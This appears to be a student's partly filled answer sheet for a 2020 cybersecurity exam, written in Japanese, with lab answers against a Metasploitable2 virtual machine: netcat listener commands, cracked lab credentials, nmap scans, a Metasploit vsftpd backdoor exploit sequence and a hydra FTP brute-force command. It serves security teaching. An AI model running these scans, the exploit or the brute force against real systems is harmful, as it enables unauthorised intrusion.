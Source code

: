 # CyberSecurity I Exam 2020 回答用紙

[ip]
kali: 192.168.33.10
metasploitable2: 192.168.33.5

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5000
```
### クライアント側コマンド
 
```sh
# ここに回答を記述
nc 192.168.33.5(server ip) 5000
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
- omas:itcollege
- omas2:foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.33.0/25

```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -p- 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.33.5
run
```

## 問5 [Online Password Cracker]
hydra -L user.list -P passwd.list -t 64 192.168.33.5 ftp

### 1. コマンド

```sh
# ここに回答を記述

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->

```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->

```
